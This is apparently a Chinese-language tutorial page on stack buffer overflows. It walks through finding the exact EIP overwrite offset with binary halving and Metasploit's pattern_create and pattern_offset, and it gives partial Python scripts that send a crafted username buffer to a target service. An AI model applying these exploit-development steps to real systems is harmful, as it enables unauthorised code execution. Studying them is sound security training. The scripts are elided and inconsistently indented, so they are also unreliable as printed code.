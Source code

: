 两种常见的方法可以确切地知道缓冲区的哪一部分正在EIP中。 可以尝试二叉树分析。 我们发送的不是400 A，而是400 A和400B。 如果EIP被B覆盖，则我们知道这四个字节位于缓冲区的后半部分。 然后，我们将400 B更改为200 B和200 C，然后再一次。这是给笨方法。

正常套路将使用Metasploit的pattern_create.rb Ruby脚本创造完全不一样的字符，用来一次性确认位置。  pattern_create.rb脚本位于/ usr / share / metasploit-framework / tools / exploit /中，但是可以通过运行msf-pattern_create在Kali中的任何位置运行

```bash
ruby /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800	#传统脚本做法
msf-pattern_create -l 800		#这是个全局的快捷做法
```

修改脚本的前半部

```python
#!/usr/bin/python import socket 
 
try:
    print "\nSending evil buffer..." 
	inputBuffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa...1Ba2Ba3Ba4Ba5Ba" 	#将pattern生成的字符串复制进来
	content = "username=" + inputBuffer + "&password=A"
    ... 
```

重置，执行后，溢出状态如下

![image-20200414104324069](assets/5.BOF.assets/image-20200414104324069.png)

将这个EIP值赋值给pattern，计算出精确的溢出offser偏移量

```bash
kali@kali:~$ msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780 
```

再次修改脚本

```bash
#!/usr/bin/python
import socket 
 
try:
	print "\nSending evil buffer..." 
	filler = "A" * 780		#前面的780就是我们需要填充的尺寸
    eip = "B" * 4		#4个B应该刚好填充EIP，使EIP变为42424242
    buffer = "C" * 16		#800就崩溃了，所以800-780-4=16，我们只有16个字符位置用来执行命令。
	inputBuffer = filler + eip + buffer
    content = "username=" + inputBuffer + "&password=A"
    ...
```
